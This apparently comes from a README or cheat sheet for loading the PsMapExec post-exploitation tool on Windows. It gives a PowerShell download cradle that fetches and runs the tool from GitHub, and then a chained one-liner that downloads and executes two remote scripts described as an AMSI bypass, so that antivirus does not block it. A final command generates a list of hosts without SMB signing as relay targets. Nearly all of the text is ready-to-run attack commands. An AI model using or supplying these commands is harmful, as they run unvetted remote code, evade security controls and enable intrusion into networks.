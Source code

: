 Here you can load PsMapExec :

This will automatically blocked by your AV
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")
```

Bypass AMSI and load PsMapExec :)
```
iex(iwr https://raw.githubusercontent.com/zief/AMSI/main/aman.txt -Usebasicparsing);Start-sleep -s 3;iex(iwr https://raw.githubusercontent.com/zief/AMSI/main/lain.txt -Usebasicparsing);IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")
```

You can start by check SMB signing
```
PsMapExec -Targets All -Method GenRelayList
```



